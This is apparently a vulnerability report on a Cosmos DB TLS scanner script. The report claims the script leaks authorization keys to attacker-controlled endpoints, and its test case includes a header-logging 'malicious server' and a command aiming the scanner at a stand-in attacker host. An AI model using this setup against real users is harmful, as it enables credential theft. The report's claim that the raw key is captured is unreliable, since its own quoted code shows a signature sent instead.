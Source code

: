- Vulnerability Name: Credential Exposure to Malicious Endpoint
- Description:
    1. An attacker crafts a malicious endpoint that mimics the appearance of a legitimate Azure Cosmos DB endpoint.
    2. The attacker uses social engineering techniques (e.g., phishing, misleading instructions) to trick a user into running the `cosmos_tls_scanner.py` script against this malicious endpoint instead of a legitimate Azure Cosmos DB endpoint.
    3. The user, believing they are testing their own Cosmos DB account, provides their Cosmos DB authorization key as a command-line argument to the script.
    4. The `cosmos_tls_scanner.py` script, as designed, sends HTTP requests to the specified endpoint to test TLS versions. These requests include the authorization key in the `authorization` header for authentication.
    5. When the script is run against the malicious endpoint, the attacker's server receives the HTTP requests, including the Cosmos DB authorization key in the header.
    6. The attacker captures and logs the authorization key from the received requests.
    7. The attacker can now use the captured authorization key to gain unauthorized access to the user's actual Azure Cosmos DB account, as the key provides full access to the Cosmos DB resources.
- Impact:
    - Full compromise of the Azure Cosmos DB account.
    - Unauthorized access to all data within the Cosmos DB account.
    - Potential data exfiltration, modification, or deletion by the attacker.
    - Loss of confidentiality, integrity, and availability of the Cosmos DB account and its data.
- Vulnerability Rank: Critical
- Currently Implemented Mitigations:
    - None. The tool currently lacks any built-in mitigations against this vulnerability.
- Missing Mitigations:
    - **Warning Message:** Display a prominent warning message to the user before execution, emphasizing the importance of using the tool only against trusted endpoints and the risks of exposing credentials to untrusted endpoints. This warning should be displayed every time the tool is run.
    - **Endpoint Validation (Limited):** Implement basic validation of the endpoint format to check if it resembles a valid Azure Cosmos DB endpoint (e.g., checking for `documents.azure.com` in the URL). However, this mitigation is limited as attackers can register domain names that look similar. This should not be relied upon as a strong security measure but rather as a minor deterrent and a hint for users to double-check.
- Preconditions:
    - The user must be tricked into running the `cosmos_tls_scanner.py` script.
    - The user must be socially engineered to provide their Cosmos DB authorization key while targeting the malicious endpoint.
    - The attacker must have control over a server acting as the malicious endpoint and be able to capture incoming HTTP requests.

- Source Code Analysis:
    1. **Argument Parsing:** The `_get_parser()` function in `cosmos_tls_scanner.py` defines the command-line arguments, including `--endpoint` and `--authorization-key`.
    ```python
    def _get_parser():
        parser = argparse.ArgumentParser(description="Azure Cosmos DB TLS Scanner")
        parser.add_argument(
            "--endpoint",
            "-e",
            required=True,
            help="Azure Cosmos DB database account endpoint. Example https://myaccount.documents.azure.com:443/",
        )
        parser.add_argument(
            "--authorization-key",
            "-k",
            required=True,
            help="Master or Read-only key for account of the form khYANAIiAl12n...==",
        )
        # ... other arguments
        return parser
    ```
    This code shows that the script is designed to accept the endpoint and authorization key as user inputs.

    2. **Request Construction and Authorization:** The `_send_request()` function sends HTTP requests using the provided endpoint and includes headers generated by `_get_auth_header()`. The `_get_auth_header()` function directly uses the provided `key` (authorization key) to generate the authentication signature.
    ```python
    def _get_auth_header(key, verb, resource_type, resource_link, date):
        # ... (code to create authorization header using the key) ...
        digest = hmac.digest(base64.b64decode(key), payload.encode("utf-8"), hashlib.sha256)
        signature = base64.encodebytes(digest).decode("utf-8")
        return urllib.parse.quote("type=master&ver=1.0&sig={}".format(signature[:-1]))

    def _send_request(
        uri, ssl_version, verb, resource_type, resource_link, headers=None, body=None
    ):
        full_url = urllib.parse.urljoin(uri, resource_link + "/")
        full_url = urllib.parse.urljoin(full_url, resource_type)
        session = requests.Session()
        session.mount("https://", SSLAdapter(ssl_version))
        response = session.request(verb, full_url, headers=headers, data=body) # Headers contain authorization key
        return response
    ```
    This demonstrates that the authorization key is included in the headers of requests sent to the provided `--endpoint`.

    3. **Vulnerable Execution Flow:** The `main()` function parses arguments and calls either `list_databases()` or `basic_query()`, which both eventually call `_send_request()` with the user-provided endpoint and authorization key. If a malicious endpoint is provided, the authorization key will be sent to it.
    ```python
    def main(args):
        args.endpoint = args.endpoint.strip()
        args.authorization_key = args.authorization_key.strip()
        # ...
        for ssl_version_name, ssl_version in ssl_versions:
            # ...
            if args.database_name and args.collection_name:
                response = basic_query(
                    args.endpoint, # User provided endpoint
                    args.authorization_key, # User provided key
                    ssl_version,
                    args.database_name,
                    args.collection_name,
                )
            else:
                response = list_databases(
                    args.endpoint, # User provided endpoint
                    args.authorization_key, # User provided key
                    ssl_version
                )
            # ...
    ```

- Security Test Case:
    1. **Set up a malicious endpoint:**
        - Create a simple HTTP server (e.g., using Python's `http.server`) that listens on a public IP address and port (e.g., port 8080).
        - Configure the server to log all incoming HTTP requests, including headers and request paths, to a file or console.
        - Example Python malicious server (simplified `malicious_server.py`):
        ```python
        from http.server import BaseHTTPRequestHandler, HTTPServer

        class MaliciousHandler(BaseHTTPRequestHandler):
            def do_GET(self):
                self.send_response(200)
                self.send_header('Content-type', 'text/plain')
                self.end_headers()
                self.wfile.write(b"Malicious Endpoint - GET request received\n")
                print("GET request received:")
                print(f"  Path: {self.path}")
                print("  Headers:")
                for header, value in self.headers.items():
                    print(f"    {header}: {value}")

            def do_POST(self):
                self.send_response(200)
                self.send_header('Content-type', 'text/plain')
                self.end_headers()
                self.wfile.write(b"Malicious Endpoint - POST request received\n")
                print("POST request received:")
                print(f"  Path: {self.path}")
                print("  Headers:")
                for header, value in self.headers.items():
                    print(f"    {header}: {value}")
                content_len = int(self.headers.get('Content-Length', 0))
                post_body = self.rfile.read(content_len)
                print("  Body:")
                print(post_body.decode('utf-8'))


        if __name__ == '__main__':
            server_address = ('', 8080)
            httpd = HTTPServer(server_address, MaliciousHandler)
            print(f"Malicious server listening on port {server_address[1]}")
            httpd.serve_forever()
        ```
        - Run this malicious server on a publicly accessible machine: `python malicious_server.py`

    2. **Prepare to run the scanner:**
        - Install the `cosmos_tls_scanner.py` requirements: `pip install -r requirements.txt`
        - Obtain a valid Cosmos DB authorization key (master or read-only key - for testing, a read-only key is safer).

    3. **Execute the scanner against the malicious endpoint:**
        - Replace `https://myaccount.documents.azure.com:443/` in the command below with the public IP address or hostname of the machine running the malicious server and the port (e.g., `http://<public-ip>:8080/` or `http://<hostname>:8080/`).  **Note:** Use `http` not `https` for the malicious server unless you set up SSL for it, but for this test `http` is sufficient to demonstrate credential capture.
        - Replace `khYANAIiAl12n...==` with your valid Cosmos DB authorization key.
        ```bash
        python3 cosmos_tls_scanner.py --endpoint http://<public-ip>:8080/ --authorization-key khYANAIiAl12n...==
        ```
        Or if you are using a hostname:
        ```bash
        python3 cosmos_tls_scanner.py --endpoint http://<hostname>:8080/ --authorization-key khYANAIiAl12n...==
        ```

    4. **Verify credential capture:**
        - Check the output of the malicious server (console or log file).
        - You should see the logged HTTP requests. Examine the headers of these requests.
        - Verify that the `authorization` header is present and contains your Cosmos DB authorization key.

    5. **Expected Result:** The malicious server should successfully capture the HTTP requests sent by `cosmos_tls_scanner.py`, including the `authorization` header which contains the Cosmos DB authorization key. This confirms that the tool, when pointed to a malicious endpoint, will transmit the user's credentials to that endpoint, proving the vulnerability.